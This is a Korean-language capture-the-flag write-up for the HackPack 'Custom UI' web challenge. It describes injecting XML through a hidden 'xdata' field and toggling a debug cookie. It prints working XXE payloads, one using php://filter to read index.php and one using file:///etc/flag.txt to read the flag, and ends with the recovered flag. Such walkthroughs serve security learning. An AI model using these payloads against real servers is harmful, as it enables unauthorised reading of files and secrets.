



# Custom UI
**Web, 211pts**
> How often do you visit the website just to bounce back because of bad design? Now we developed a new feature, which gives you the ability to change the design! Check out a new feature: https://custom-ui.cha.hackpack.club/

--------------------------------------------------------------------------------



색상과 텍스트를 입력하면 위의 버튼이 입력한 값에 따라 스타일이 변한다.



입력하는 값에 문제가 있으면 위의 사진과 같이 오류가 출력되는 것을 볼 수 있다. 여기서 XML과 관련된 함수가 사용되는 것을 보고 **XXE Injection**일 것이라는 생각이 들었다. 하지만 색상과 텍스트를 입력하는 곳에 계속 테스트를 해봤지만 오류만 출력되어서 인젝션을 어떻게 해야할지 한참을 헤맸다.

```js
document.addEventListener("DOMContentLoaded", () => {
  
  let el = document.getElementById("btnColor");
  let el3 = document.getElementById("btnValue");
  let el2 = document.getElementById("xdata");
  el.onkeyup = updateData;
  el3.onkeyup = updateData;

  function updateData() {
    let data = "<button><color>" + el.value + "</color><value>" + el3.value + "</value></button>";
    el2.value = data;
  }
})
```

페이지 소스 코드와 위의 `post.js` 파일을 보면서 `xdata`가 무슨 역할을 하는지 이해가 안됐다. 그래서 Burp로 값이 어떻게 전달되는지 보려고 요청을 확인해봤는데, 입력한 값이 XML 형식으로 수정되어 전달되는 것을 보고 `xdata`에 인젝션을 시도하기로 했다.

사실 처음에 `debug` 쿠키가 false로 설정되어 있어서 true로 바꿔봤더니 이전에는 없었던 주석처리된 부분이 보였다. 내용은 플래그가 `/etc/flag.txt`에 있다는 힌트였다. 그런데 인젝션 포인트로 한참을 헤매다보니 잊어버리고 [문서](https://portswigger.net/web-security/xxe)를 보며 일단 `index.php` 파일의 내용을 출력할 수 있도록 했다.

```xml
<!DOCTYPE button [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]><button><color></color><value>&xxe;</value></button>
```

`xdata`를 위와 같이 만들어 요청을 보내면 버튼에 `index.php` 파일의 내용이 base64 인코딩되어 출력되는 것을 볼 수 있다. 여기서 쿠키가 있었다는 것이 다시 떠올라서 플래그 파일을 출력하기 위해 아래와 같이 요청을 보내 플래그를 획득할 수 있었다.

```
xdata=<!DOCTYPE%20button%20[%20<!ENTITY%20xxe%20SYSTEM%20"file:///etc/flag.txt">%20]><button><color></color><value>%26xxe;</value></button>
```



```
Flag: flag{d1d_y0u_kn0w_th@t_xml_can_run_code?}
```